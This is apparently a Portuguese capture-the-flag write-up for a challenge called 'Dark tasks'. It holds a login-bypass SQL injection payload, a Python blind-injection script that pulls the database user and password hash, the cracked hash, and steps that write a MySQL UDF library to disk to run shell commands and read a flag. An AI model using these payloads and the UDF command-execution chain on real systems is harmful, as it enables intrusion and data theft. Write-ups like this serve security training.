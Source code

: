 Dark tasks
==========

Acessando a página http://178.63.58.69:8086/, havia uma imagem e no código-fonte
foi possível visualizar duas mensagens em b64. Ignorando elas, partimos para olhar
o `robots.txt`, o que nos deu uma boa pista:

```
User-agent: *
Disallow: /D4rk_MySQL.php
```

Acessando tal arquivo, notamos que se tratava de um Adminer, algo parecido com
phpmyadmin. O curioso é que ele aceitava fazer login com usuários inexistentes,
contudo sem qualquer privilégio.

Após uma dica do TheZakMan, percebi que havia deixado passar um detalhe na index do site.
A mensagem em b64 indicava uma outra página: `Th3-D4rk-T4sks/`.

Neste dir havia uma tela de login, a qual estava vulnerável a SQL injection.

Com um simples `') or 1=1-- ` foi possível efetuar o login. Olhando os links no meu,
notamos um outro arquivo que era possível injetar SQL (`viewtask.php?id=`). O que
pode nos ajudar descobrir que usuário está sendo usado para acessar o bd do site.

Desenvolvendo um código para ajudar nesse trabalho (não quis usar sqlmap), ficou:

```python
import requests
import string
import sys

def do_login():
	url = 'http://178.63.58.69:8086/Th3-D4rk-T4sks/'
	r = requests.post(url, data={'user': "') or 1=1-- "})
	return r

def do_viewtask(p,c):
	url = 'http://178.63.58.69:8086/Th3-D4rk-T4sks/viewtask.php'
	r2 = requests.get(url, params=p, cookies=c)
	return r2.text

def do_query(s,c):
	r2 = do_viewtask({'id': s.encode('base64')}, c)
	return r2.find('viewtask.php?') != -1

r = do_login()

match = ''
for n in xrange(50):
	found = False
	for c in string.digits + '@_*' + string.letters:
		payload = "' or user() like '%s%%' or '0" % str(match+c)
		payload = payload.replace('_', '\_')

		if do_query(payload, r.cookies):
			found = True
			match += c
			print match
			break
	if not found:
		print 'end!'
		break
```

Com esse código identifiquei que o usuário se tratava de `dark`. A partir dai,
foi ler o campo `password` da tabela `mysql.user` referente a este usuário.
Trocando o payload para:

`' or (select password from mysql.user where user = 'dark') like '%s%%' or '0`

Obtive o seguinte hash: `*E56A114692FE0DE073F9A1DD68A00EEB9703F3F1` (41-byte)

O que foi tarefa fácil para o **john**:

```
Loaded 1 password hash (MySQL 4.1 double-SHA-1 [128/128 SSE2 intrinsics 4x])
123123           (?)
guesses: 1  time: 0:00:00:00 DONE (Sat Nov 22 09:37:43 2014)  c/s: 1369  trying: 123123 - 888888
```

Agora então voltando para o Adminer, posso logar com `dark/123123` e ver se tem
permissão pra fazer alguma coisa. (Neste ponto, já havia tido a dica do TheZakMan
que havia dito que usou UDF pra resolver) Então fui direto pensar em como jogar uma
**lib_mysqludf_sys.so** lá no servidor. (lib encontrada no google que forneceve varias
funções sys_* para executar comandos no servidor)

Como o servidor não tinha a função `from_base64`, pensei em passar o hex do binário
da lib.

`$ python -c "print open('lib_mysqludf_sys.so').read().encode('hex')"`

E rodando o SQL lá no Adminer:

`select unhex('7f454c4601010100000000000000000...') into dumpfile '/usr/lib/mysql/plugin/sigsegv.so' from dual`

Percebemos que a query foi executada com sucesso! Agora então só bastava criar uma UDF que executasse comando no servidor
que retornasse o output. Então escolhemos a `sys_eval` da lib, e criamos executando:

`CREATE FUNCTION sys_eval RETURNS string SONAME 'sigsegv.so';`

Tornando possível verificar os arquivos no servidor (`ls`), o que logo nos levou a:

`select sys_eval('cat /home/Th3_D@rk_S3cr3t/FL@g_Bala7.txt') from dual`

Que nos deu: FLag(Th3_Gr3@t_7aMaDa)

